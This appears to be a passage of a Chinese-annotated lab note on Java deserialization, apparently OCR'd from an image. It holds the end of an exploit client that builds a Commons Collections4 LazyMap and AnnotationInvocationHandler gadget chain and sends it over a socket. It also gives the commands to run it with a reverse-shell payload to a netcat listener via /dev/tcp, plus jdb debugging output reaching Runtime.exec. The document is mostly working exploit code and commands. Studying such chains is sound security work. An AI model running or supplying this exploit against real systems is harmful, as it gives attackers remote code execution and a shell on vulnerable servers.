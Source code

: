 ```java
         */
        Map                 lazyMap     = LazyMap.lazyMap( normalMap, tchain );
        Class               clazz       = Class.forName( "sun.reflect.annotation.AnnotationInvocationHandler" );
        Constructor         cons        = clazz.getDeclaredConstructor( Class.class, Map.class );
        cons.setAccessible( true );
        InvocationHandler   ih          = ( InvocationHandler )cons.newInstance( Retention.class, lazyMap );
        Map                 mapProxy    = ( Map )Proxy.newProxyInstance
        (
            Map.class.getClassLoader(),
            new  Class[] { Map.class },
            ih
        );
        Object              obj         = cons.newInstance( Retention.class, mapProxy );
        Socket              s_connect   = new Socket( addr, port );
        ObjectOutputStream  oos         = new ObjectOutputStream( s_connect.getOutputStream() );
        oos.writeObject( obj );
        oos.close();
        s_connect.close();
    }
}
```

nc -l -p 7474

java_8_40 \
-cp "commons-collections4-4.0.jar:." \
VulnerableServer 192.168.65.23 1414

java \
-cp "commons-collections4-4.0.jar:." \
EvilClientWithLazyMap4 192.168.65.23 1414 "/bin/sh -i > /dev/tcp/192.168.65.23/7474 0<&1 2>&1"

ps -f -o pid,user,args

调试VulnerableServer:

java_8_40 -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections4-4.0.jar:." \
VulnerableServer 192.168.65.23 1414

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in java.lang.Runtime.exec(java.lang.String[])

  [1] java.lang.Runtime.exec (Runtime.java:485), pc = 0
  [2] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [3] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [4] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [5] java.lang.reflect.Method.invoke (Method.java:497), pc = 56
  [6] org.apache.commons.collections4.functors.InvokerTransformer.transform (InvokerTransformer.java:129), pc = 30
  [7] org.apache.commons.collections4.functors.ChainedTransformer.transform (ChainedTransformer.java:112), pc = 26
  [8] org.apache.commons.collections4.map.LazyMap.get (LazyMap.java:165), pc = 20
  [9] sun.reflect.annotation.AnnotationInvocationHandler.invoke (AnnotationInvocationHandler.java:77), pc = 204
  [10] com.sun.proxy.$Proxy0.entrySet (null), pc = 9
  [11] sun.reflect.annotation.AnnotationInvocationHandler.readObject (AnnotationInvocationHandler.java:444), pc = 37
  [12] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [13] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [14] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [15] java.lang.reflect.Method.invoke (Method.java:497), pc = 56
  [16] java.io.ObjectStreamClass.invokeReadObject (ObjectStreamClass.java:1,017), pc = 20
  [17] java.io.ObjectInputStream.readSerialData (ObjectInputStream.java:1,896), pc = 93